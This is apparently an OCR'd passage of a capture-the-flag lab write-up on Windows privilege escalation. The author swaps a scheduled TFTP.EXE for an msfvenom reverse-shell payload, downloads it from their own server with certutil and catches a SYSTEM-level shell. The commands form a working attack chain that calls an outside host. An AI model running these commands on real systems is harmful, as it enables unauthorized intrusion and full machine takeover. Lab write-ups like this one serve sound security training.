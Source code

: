                0 File(s)              0 bytes

               7 Dir(s)  28,620,156,928 bytes free

cd Backup

dir

 Volume in drive C has no label.

 Volume Serial Number is 6E11-8C59

  

 Directory of C:\Backup

  

07/20/2020  07:08 AM    <DIR>          .

07/20/2020  07:08 AM    <DIR>          ..

06/12/2020  07:45 AM            11,304 backup.txt

06/12/2020  07:45 AM                73 info.txt

06/23/2020  07:49 PM            73,802 TFTP.EXE

               3 File(s)         85,179 bytes

               2 Dir(s)  28,620,156,928 bytes free

type info.txt

Run every 5 minutes:

C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt

  

TFTP.exe runs every 5 minutes and probably runs with system privileges 

I'll replace TFTP.exe with my own version for a more privileged shell

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.53 LPORT=445 -f exe -o TFTP.EXE

  

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload

[-] No arch selected, selecting arch: x86 from the payload

No encoder specified, outputting raw payload

Payload size: 324 bytes

Final size of exe file: 73802 bytes

Saved as: TFTP.EXE

It's normal to have 10's of thousands of bytes of bloat bs since it's windows.

Now to download new TFTP.EXE file

certutil.exe -f -urlcache -split [http://192.168.49.53:80/TFTP.EXE](http://192.168.49.53/TFTP.EXE)

Got 200 codes from my http server for the new .exe so now make a new listener and wait for the connection to catch  for a system level root before looking for the system level flags.

And GOTEM

![](https://lh3.googleusercontent.com/TKayiLGsDH8QAL0A-m6E3ToDS3NDcbzGfITc0ZvFDemI_ppfbay-eUu1Eyzdb9UaVJwz3LLJR2Ol0S11Dq_7MnXGdMin3n8w97qW5aFzFIEZuOv6LfAq3rbtUd-3ds46oQ=w1280)